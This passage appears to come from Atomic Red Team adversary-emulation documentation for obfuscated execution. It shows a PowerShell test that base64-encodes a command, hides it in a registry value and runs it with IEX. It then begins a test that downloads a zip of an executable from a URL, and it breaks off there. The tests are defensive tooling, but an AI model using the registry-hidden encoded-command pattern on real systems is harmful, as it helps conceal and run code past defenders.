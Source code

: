 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_key_storage | Windows Registry Key to store code | string | HKCU:Software&#92;Microsoft&#92;Windows&#92;CurrentVersion|
| powershell_command | PowerShell command to encode | string | Write-Host "Hey, Atomic!"|
| registry_entry_storage | Windows Registry entry to store code under key | string | Debug|


#### Attack Commands: Run with `powershell`! 


```powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```





<br/>
<br/>

## Atomic Test #4 - Execution from Compressed File
Mimic execution of compressed executable. When successfully executed, calculator.exe will open.

**Supported Platforms:** Windows


**auto_generated_guid:** f8c8a909-5f29-49ac-9244-413936ce6d1f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_path | url to download Exe | url | https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1027/bin/T1027.zip|

